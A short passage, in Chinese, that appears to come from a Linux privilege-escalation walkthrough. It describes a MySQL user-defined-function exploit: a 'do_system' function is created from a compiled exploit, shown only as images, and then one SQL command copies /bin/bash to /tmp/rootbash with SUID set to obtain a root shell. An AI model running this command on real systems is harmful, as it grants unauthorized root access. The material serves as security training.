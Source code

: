 **在 MySQL shell 上执行以下命令，使用我们编译的漏洞创建一个用户定义的函数(UDF)“do _ system”:**

**![](img/43875acf4686ed4a3e27b56c488b02ed.png)****![](img/15552c04aff427e4232e07dbbe081ab0.png)****![](img/c7dce3b166bd0401267d5dc1b16ff37c.png)**

**使用函数将/bin/bash 复制到/tmp/rootbash，并设置 SUID 权限:**

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

**退出 MySQL shell(键入 **exit** 或 **\q** 并按 **Enter** )并使用-p 运行/tmp/rootbash 可执行文件以获得以 root 权限运行的 shell:**
